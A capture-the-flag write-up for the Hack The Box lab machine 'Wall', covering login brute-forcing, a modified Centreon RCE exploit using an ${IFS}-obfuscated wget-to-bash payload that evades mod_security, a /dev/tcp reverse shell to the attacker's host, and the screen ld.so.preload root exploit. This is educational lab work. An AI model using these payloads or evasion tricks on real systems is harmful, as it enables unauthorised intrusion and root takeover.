# Wall

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/208"></a>
  <br>
</h1>
<h4 align="center"> Author: <a heref="https://www.hackthebox.eu/home/users/profile/91108" > thek</a></h4>

***

__Machine IP__: 10.10.10.157

__DATE__ : 20/09/2019

***

## Nmap



There are only 2 port open, the 3rd one in the scan is filtered. We start our enumeration from HTTP service.

***

## HTTP

If we visit the IP in the browser we'll get `Apache2 Ubuntu Default Page`. So I started gobuster scan on it.

```bash
➜ gobuster -e -w CTFs/lists/big.txt -u http://10.10.10.157/
```

We can see that there is `/monitoring` When we try to visit the URL it prompts for username and password. Since we don't have any hint about credentials we'll try to dictionary attack the login.

We can use hydra or burp suite for cracking the password. I used burp suite, I loaded the default password list and used `admin` as username. After few minute you'll find out that the password is `password1`.

Using `admin:password1` we are able to login but the moment we login we are redirected to `/centreon`



Since this look like some kind of monitoring tool I used `searchsploit` to search for centreon exploit and found one.



I downloaded the exploit and ran it like

```bash
➜ python centreon.py http://10.10.10.157/centreon/ admin password1 10.10.14.225 4444
```

But this didn't trigger the shell because there are some changes required within the exploit. There is a line in the exploit

```json
"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
```

In the end it's using `#` the problem is server is running `mod_security-filter` triggers on `#`, so we have to find an alternative character for that or use someother way to get a shell.

[@4ndr34z](https://twitter.com/4nqr34z) said that we can run a python server hosting a shell file and then wget that file using our RCE exploit.

First let us edit the RCE exploit. Edit the RCE exploit in the following ways:

* Remove line 22 - 25 i.e

```python
if len(sys.argv) != 6:
    print(len(sys.argv))
    print("[~] Usage : ./centreon-exploit.py url username password ip port")
    exit()
```
* Remove line 30 and 31 i.e

```python
ip = sys.argv[4]
port = sys.argv[5]
```

* Replace line 27-29 with:

```python
url = "http://10.10.10.157/centreon/"
username = "admin"
password = "password1"
```

* Finally replace line 70 with

```json
"nagios_bin": "wget${IFS}-qO-${IFS}http://<LocalIP>/shell${IFS}|${IFS}bash;"
```

Once you are done editing the exploit. Do the following things:

* Make a shell script that will be executed on the machine
    - `echo "bash -I >& /dev/tcp/LocalIP/LOCALPORT 0>&1" > shell`
    - `chmod +x shell`
* Start a python server on port 80
    - `python3 -m http.server`
    - It's important to start the server on port 80 or else it __might__ not work
* Run the exploit
    - `python centreon.py`

If everything works out fine then you should have the shell.



***

## Privilege escalation

I ran my enumeration script on the system and found out that there were 3 other users and there was a root SUID.





I used `searchsploit` to find the exploit for this SUID.



I have used this exploit in some other vulnhub machines and I know that this script causes some issue when we try to execute it at once. So I manually separated the code into 2 different files.

* `libhax.c`

   

compile using:

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

* `rootshell.c`

   

compile using:
```bash
gcc -o rootshell rootshell.c
```

Then I transfered both, `libhax.so` and `rootshell` to the machine and execute the following command one after the other

```bash
$ cd /etc
$ umask 000
$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
$ screen -ls
$ ./tmp/rootshell

```

This will give us the root shell.



__NOTE__: If you still have any doubt on how exploit is needed to be divided you can read my [vulnhub/DC5](https://mzfr.github.io/vulnhub-writeups/2019-07-09-DC5) writeup.

Then we can grab the root flag



And since we didn't had the permission to read the `user` flag. Now we can get that too.



***

This was a beginner level machine since the only issue one might have is in running the RCE exploit.

Thanks to [askar](https://twitter.com/mohammadaskar2) for making this machine.

Also thanks to [@4ndr34z](https://twitter.com/4nqr34z) and [@d4mianwayne](https://twitter.com/D4mianWayne) for great team work.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
